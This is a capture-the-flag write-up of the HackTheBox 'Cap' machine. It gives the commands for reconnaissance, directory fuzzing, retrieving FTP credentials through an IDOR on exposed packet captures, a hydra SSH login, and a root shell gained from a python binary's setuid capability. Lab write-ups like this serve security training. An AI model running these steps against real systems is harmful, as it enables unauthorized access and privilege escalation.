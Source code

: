 ```yaml
---
title: "Cap"
date: 2024-12-31
draft: false
summary: "Writeup for Cap HackTheBox challenge."
tags: ["linux", "capabilities", "idor"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/cap/cover.webp"
  caption: "Cap HackTheBox Challenge"
  alt: "Cap cover"
platform: "HackTheBox"
---
```


**CAP** is a linux based CTF challenge on Hackthebox. This machine contains 2 flags and requires us to capture them by exploiting various vulnerabilities and misconfigurations ranging from IDOR to capabilities.
<!--more-->
To access the machine, click on the link given below:
- https://app.hackthebox.com/machines/Cap

## Reconnaissance

I performed an **nmap** aggressive scan to find open ports and the services running on them.

```shell
nmap -A -p- TARGET --min-rate 10000 -oN cap.nmap
```

| **PORT** | **SERVICE** |
| -------- | ----------- |
| 21       | FTP         |
| 22       | SSH         |
| 80       | HTTP        |

![](https://cdn.ziomsec.com/cap/1.webp)

## Foothold

The **nmap** scan identified an **http** server running so I accessed it using my browser and got a dashboard.

![](https://cdn.ziomsec.com/cap/2.webp)

I explored the application and in the meantime, performed a scan to find directories using **ffuf**.

```shell
ffuf -u http://TARGET/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt -mc 200,302
```

![](https://cdn.ziomsec.com/cap/3.webp)

The *data* directory seemed interesting. It contained various capture files.

![](https://cdn.ziomsec.com/cap/4.webp)

```shell
ffuf -u http://TARGET/data/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -mc 200
```

![](https://cdn.ziomsec.com/cap/5.webp)
![](https://cdn.ziomsec.com/cap/6.webp)

I downloaded the packet capture files.

![](https://cdn.ziomsec.com/cap/7.webp)

![](https://cdn.ziomsec.com/cap/8.webp)

![](https://cdn.ziomsec.com/cap/9.webp)

I analyzed the files and found **ftp** credentials in *0.pcap*.

![](https://cdn.ziomsec.com/cap/10.webp)

![](https://cdn.ziomsec.com/cap/11.webp)

I used those credentials to log into the **ftp** server and found the user flag.

```shell
ftp TARGET
# enter username and password
> ls
> get user.txt
```

![](https://cdn.ziomsec.com/cap/12.webp)
![](https://cdn.ziomsec.com/cap/13.webp)

![](https://cdn.ziomsec.com/cap/14.webp)

I also validated the credentials against **ssh** using **hydra**.

```shell
hydra -l 'nathan' -p 'Buck3tH4TF0RM3!' ssh://TARGET
```

![](https://cdn.ziomsec.com/cap/15.webp)

Finally I logged in using **ssh**.

```shell
ssh nathan@TARGET
# enter password
```

![](https://cdn.ziomsec.com/cap/16.webp)

## Privilege Escalation

I viewed binaries with **capabilities** and found **python**.

```shell
getcap -r / 2>/dev/null
```

![](https://cdn.ziomsec.com/cap/17.webp)

I referred to the below article to exploit this misconfiguration and gain root access.
- https://gtfobins.github.io/gtfobins/python/#capabilities

```shell
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![](https://cdn.ziomsec.com/cap/18.webp)

## Closure

Here's a brief summary of how I pwned **CAP**:
- I performed fuzzing on the web application and discovered an endpoint contain packet capture files.
- IDOR allowed me to access other capture files aswell
- I downloaded these packet captures and analyzed them to find hardcoded FTP credentials.
- I logged into the FTP server and found the first flag.
- The FTP credentials also worked on ssh so I used it to get user access on the target.
- I enumerated binaries with capabilities and found python.
- I exploited this misconfiguration and spawned a shell as root.
- Finally, I captured the second flag from the root directory.

That's it from my side! Until next time :)

---
